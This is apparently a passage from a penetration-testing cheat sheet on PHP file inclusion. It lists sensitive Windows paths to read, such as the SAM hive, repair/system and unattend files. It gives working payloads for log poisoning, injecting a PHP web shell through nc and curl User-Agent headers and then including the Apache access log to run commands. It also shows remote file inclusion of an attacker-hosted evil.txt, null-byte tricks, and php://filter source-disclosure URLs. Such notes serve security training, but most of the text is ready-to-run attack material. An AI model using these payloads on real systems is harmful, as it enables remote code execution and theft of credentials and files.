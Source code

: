 ```windows
c:/unattend.xml
c:/unattended.txt
c:/unattended.xml
c:/windows/repair/sam
c:/windows/repair/system
c:\windows\system32\drivers\etc\hosts
C:\xampp\php\php.ini
```

#####  File inclusion

_register_globals_ and _allow_url_ in php.ini

a) Log file poisoning

```windows
C:\xampp\apache\logs\access.log
```

example:

```1
kali@kali:~$ nc -nv 10.11.0.22 80
(UNKNOWN) [10.11.0.22] 80 (http) open

<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>

HTTP/1.1 400 Bad Request
```

```2
http://10.11.0.22/menu.php?file=c:\xampp\apache\logs\access.log&cmd=ipconfig
```

```1
curl http://192.168.152.52/ -H "User-Agent: <?php system($_GET['cmd']); ?>"
```

this one works always

```
curl http://192.168.152.52/ -H "User-Agent: <?php echo '<pre>' . system('ls') . '</pre>';?>"
```

#####   Remote File Inclusion

```
http://10.11.0.22/menu.php?file=http://10.11.0.4/evil.txt
```

```
use %00  or ? to terminate a string
```

#####   PHP wrapers

php://filter

```
http://example.com/index.php?page=php://filter/read=string.rot13/resource=index.php
http://example.com/index.php?page=php://filter/convert.iconv.utf-8.utf-16/resource=index.php
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
http://example.com/index.php?page=pHp://FilTer/convert.base64-encode/resource=index.php
```
